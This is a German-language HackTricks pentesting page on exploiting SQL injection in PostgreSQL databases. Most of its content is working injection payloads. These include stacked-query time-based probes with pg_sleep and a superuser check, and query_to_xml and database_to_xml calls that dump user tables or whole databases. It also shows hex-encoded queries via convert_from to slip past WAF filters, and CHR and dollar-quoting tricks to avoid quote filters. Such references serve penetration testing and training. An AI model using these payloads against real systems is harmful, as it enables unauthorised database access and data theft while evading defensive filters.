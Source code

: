 # PostgreSQL-Injektion

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Wenn du an einer **Hacking-Karriere** interessiert bist und das Unhackbare hacken möchtest - **wir stellen ein!** (_fließend Polnisch in Wort und Schrift erforderlich_).

{% embed url="https://www.stmcyber.com/careers" %}

***

**Diese Seite zielt darauf ab, verschiedene Tricks zu erklären, die dir helfen könnten, eine SQL-Injektion in einer PostgreSQL-Datenbank auszunutzen und die Tricks zu ergänzen, die du auf** [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md) **finden kannst.**

## Netzwerkinteraktion - Privilegieneskalation, Port-Scanner, NTLM-Herausforderungsantwort-Offenlegung & Exfiltration

Das **PostgreSQL-Modul `dblink`** bietet Möglichkeiten zur Verbindung mit anderen PostgreSQL-Instanzen und zur Ausführung von TCP-Verbindungen. Diese Funktionen, kombiniert mit der `COPY FROM`-Funktionalität, ermöglichen Aktionen wie Privilegieneskalation, Port-Scanning und das Erfassen von NTLM-Herausforderungsantworten. Für detaillierte Methoden zur Durchführung dieser Angriffe, siehe wie man [diese Angriffe durchführt](network-privesc-port-scanner-and-ntlm-chanllenge-response-disclosure.md).

### **Exfiltrationsbeispiel mit dblink und großen Objekten**

Du kannst [**dieses Beispiel lesen**](dblink-lo_import-data-exfiltration.md), um ein CTF-Beispiel zu sehen, **wie man Daten in große Objekte lädt und dann den Inhalt großer Objekte im Benutzernamen** der Funktion `dblink_connect` exfiltriert.

## PostgreSQL-Angriffe: Lesen/Schreiben, RCE, Privilegieneskalation

Überprüfe, wie man den Host kompromittiert und Privilegien von PostgreSQL eskaliert in:

{% content-ref url="../../../network-services-pentesting/pentesting-postgresql.md" %}
[pentesting-postgresql.md](../../../network-services-pentesting/pentesting-postgresql.md)
{% endcontent-ref %}

## WAF-Umgehung

### PostgreSQL-Stringfunktionen

Das Manipulieren von Strings könnte dir helfen, **WAFs oder andere Einschränkungen zu umgehen**.\
[**Auf dieser Seite**](https://www.postgresqltutorial.com/postgresql-string-functions/) **findest du einige nützliche String-Funktionen.**

### Gestapelte Abfragen

Denke daran, dass PostgreSQL gestapelte Abfragen unterstützt, aber mehrere Anwendungen einen Fehler auslösen, wenn 2 Antworten zurückgegeben werden, während nur 1 erwartet wird. Aber du kannst die gestapelten Abfragen weiterhin über Zeitinjektion missbrauchen:
```
id=1; select pg_sleep(10);-- -
1; SELECT case when (SELECT current_setting('is_superuser'))='on' then pg_sleep(10) end;-- -
```
### XML-Tricks

**query\_to\_xml**

Diese Funktion gibt alle Daten im XML-Format in nur einer Datei zurück. Es ist ideal, wenn Sie eine große Menge an Daten in nur 1 Zeile ausgeben möchten:
```sql
SELECT query_to_xml('select * from pg_user',true,true,'');
```
**database\_to\_xml**

Diese Funktion wird die gesamte Datenbank im XML-Format in nur 1 Zeile ausgeben (seien Sie vorsichtig, wenn die Datenbank sehr groß ist, da Sie sie möglicherweise DoS oder sogar Ihren eigenen Client):
```sql
SELECT database_to_xml(true,true,'');
```
### Strings in Hex

Wenn Sie **Abfragen** ausführen können, indem Sie sie **innerhalb eines Strings** übergeben (zum Beispiel mit der **`query_to_xml`**-Funktion). **Sie können die convert\_from-Funktion verwenden, um den String als Hexadezimalwert zu übergeben und auf diese Weise Filter zu umgehen:** 

{% code overflow="wrap" %}
```sql
select encode('select cast(string_agg(table_name, '','') as int) from information_schema.tables', 'hex'), convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573', 'UTF8');

# Bypass via stacked queries + error based + query_to_xml with hex
;select query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,'')-- -h

# Bypass via boolean + error based + query_to_xml with hex
1 or '1' = (query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,''))::text-- -
```
{% endcode %}

### Verbotene Anführungszeichen

Wenn Sie keine Anführungszeichen für Ihre Payload verwenden können, können Sie dies mit `CHR` für grundlegende Klauseln umgehen (_Zeichenverkettung funktioniert nur für grundlegende Abfragen wie SELECT, INSERT, DELETE usw. Es funktioniert nicht für alle SQL-Anweisungen_):
```
SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
```
Oder mit `$`. Diese Abfragen liefern die gleichen Ergebnisse:
```
SELECT 'hacktricks';
SELECT $$hacktricks$$;
SELECT $TAG$hacktricks$TAG$;
```
<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Wenn Sie an einer **Hacking-Karriere** interessiert sind und das Unhackbare hacken möchten - **wir stellen ein!** (_fließendes Polnisch in Wort und Schrift erforderlich_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks unterstützen</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichen.

</details>
{% endhint %}

